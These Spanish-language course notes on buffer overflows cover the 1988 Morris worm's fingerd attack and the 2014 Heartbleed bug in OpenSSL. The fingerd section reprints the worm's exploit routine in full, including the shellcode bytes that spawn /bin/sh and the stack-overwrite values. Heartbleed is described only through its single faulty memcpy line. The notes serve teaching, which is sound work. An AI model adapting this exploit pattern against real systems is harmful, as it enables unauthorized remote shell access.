 # Ejemplos de BufferOverflow
---
## Morris worm fingerd attack

• Noviembre de 1988: Aparece el gusano Morris y en cuestión de horas más de 6000 computadoras se ven afectadas, lo que en ese momento representaba el 10% de Internet.
• El gusano utilizó múltiples métodos de infiltración, siendo el más exitoso un exploit de desbordamiento de búfer en fingerd.
• También intentó ataques a través de sendmail y adivinación de contraseñas a partir de una lista fija.
• El demonio finger de BSD responde a solicitudes entrantes leyendo datos (usualmente un identificador de usuario) en un búfer y transmitiendo de vuelta la información del finger.
• El búfer tenía una longitud de 512 bytes, estaba asignado en la pila y se llenaba utilizando gets:
```
char buffer[512];
gets(buffer);
```
• Una solicitud maliciosa sobrescribe la dirección de retorno en la pila para apuntar dentro del búfer, que contiene código para ejecutar /bin/sh

En la mayoría de los sistemas, fingerd se ejecutaba como root.

#### Código:
```
static try_finger( struct hst *host, int *fd1, int *fd2)
{
int i, j, l12, l16, s;
struct sockaddr_in sin;
char unused[492];
int l552, l556, l560, l564, l568;
char buf[536];
int (*save_sighand)();
save_sighand = signal(SIGALRM, justreturn);
for (i = 0; i < 6; i++) {
if (host->o48[i] == 0)
continue;
s = socket(AF_INET, SOCK_STREAM, 0);
if (s < 0)
continue;
bzero(&sin, sizeof(sin));
sin.sin_family = AF_INET;
sin.sin_addr.s_addr = host->o48[i];
sin.sin_port = IPPORT_FINGER;
alarm(10);
if (connect(s, &sin, sizeof(sin)) < 0) {
alarm(0);
close(s);
continue;
}
alarm(0);
break;
}
if (i >= 6)
return 0;
for(i = 0; i < 536; i++)
buf[i] = '\0';
for(i = 0; i < 400; i++)
buf[i] = 1;
for(j = 0; j < 28; j++)
buf[i+j] =
"\335\217/sh\0\335\217/bin\320^Z\335\0\335\0\335Z\335
\003\320^\\\274;\344\371\344\342\241\256\343\350\357\
256\362\351"[j];
l556 = 0x7fffe9fc;
/* Rewrite part of the stack
frame */
l560 = 0x7fffe8a8;
l564 = 0x7fffe8bc;
l568 = 0x28000000;
l552 = 0x0001c020;
write(s, buf, sizeof(buf));
/* sizeof == 536 */
write(s, XS("\n"), 1);
sleep(5);
if (test_connection(s, s, 10)) {
*fd1 = s;
*fd2 = s;
return 1;
}
close(s);
return 0;
}
```

Crear descriptor de socket
Intentar conectarse al objetivo en el puerto finger (79)
Abortar si la conexión no se devuelve después de 10 segundos utilizando SIGALRM.

Llenar el búfer con datos para sobrescribir la dirección de retorno y código para llamar a execl(“/bin/sh”);
Nota: buf es un arreglo de 536 bytes, mientras que fingerd solo asigna 512 bytes.
Transmitir buf al objetivo
Probar si la intrusión fue exitosa.

https://www.cs.cmu.edu/afs/cs/academic/class/15213-s02/www/applications/recitation/recitation4/A/r04-A-4up.pdf

## Heartbleed
¿Qué es Heartbleed?
Heartbleed es una vulnerabilidad en OpenSSL que salió a la luz en abril de 2014; estaba presente en miles de servidores web, incluyendo aquellos que ejecutan sitios importantes como Yahoo.

OpenSSL es una biblioteca de código abierto que implementa los protocolos de Seguridad de la Capa de Transporte (TLS) y Capa de Conexión Segura (SSL). La vulnerabilidad significaba que un usuario malicioso podía engañar fácilmente a un servidor web vulnerable para que enviara información sensible, incluyendo nombres de usuario y contraseñas.

Los estándares TLS/SSL son cruciales para la encriptación web moderna, y aunque el fallo estaba en la implementación de OpenSSL y no en los estándares en sí, OpenSSL es tan ampliamente utilizado—cuando se hizo público el error, afectó al 17% de todos los servidores SSL—que precipitó una crisis de seguridad.

Una sola línea de código contiene el error que dio lugar a la vulnerabilidad Heartbleed:
```
memcpy(bp, pl, payload);
```

memcpy() es el comando que copia datos. bp es el lugar al que se están copiando, pl es de donde se copian, y payload es la longitud de los datos que se están copiando. Como hemos visto, el problema es que nunca se intenta verificar si la cantidad de datos en pl es igual al valor dado de payload.

https://www.csoonline.com/article/562859/the-heartbleed-bug-how-a-flaw-in-openssl-caused-a-security-crisis.html



